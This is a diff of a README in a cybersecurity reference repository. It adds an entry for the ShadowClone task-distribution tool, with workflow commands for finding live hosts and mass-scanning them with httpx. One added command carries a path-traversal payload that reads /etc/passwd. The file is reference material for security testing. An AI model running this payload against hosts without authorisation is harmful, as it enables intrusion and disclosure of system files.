

Before and after one commit to Daethyra/Cybersecurity-References, a Markdown page: Useful-Repositories/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Add Shadow Clone with a workflow by Shubham Shah

````diff
--- a/Useful-Repositories/README.md
+++ b/Useful-Repositories/README.md
@@ -42,6 +42,21 @@
 
 #### [SepticX](https://github.com/TheonlyIcebear/SepticX)
 - **Description**: SepticX is a post-exploitation tool that is capable of automating a wide range of tasks, including gathering system information, executing system commands, and more.
+
+#### [Shadow Clone](https://github.com/fyoorer/ShadowClone)
+- **Description**: ShadowClone allows you to distribute your long running tasks dynamically across thousands of serverless functions and gives you the results within seconds where it would have taken hours to complete.
+
+The following commands are from Shubham Shah's workflow, shown [here](https://youtu.be/0OMmWtU2Y_g?si=bJ2qCwnEXQvp88jP&t=1186).
+
+Obtain live hosts via `httpx`:
+```bash
+python shadowclone.py -i ~/assets.csv --split 40 -o all-assets-online -c "/go/bin/httpx -l {INPUT}"
+```
+
+Check list of online assets for a specific vulnerabilty via `httpx`:
+```bash
+python shadowclone.py -i assets-online --split 40 -o matched-vulns -c "/go/bin/httpx -l {INPUT} -path '/..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd' -ms 'root:x:0:0' "
+```
 
 #### [wesng](https://github.com/bitsadmin/wesng)
 - **Description**: Windows Exploit Suggester - Next Generation (WES-NG) is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 11, including their Windows Server counterparts, is supported.
````
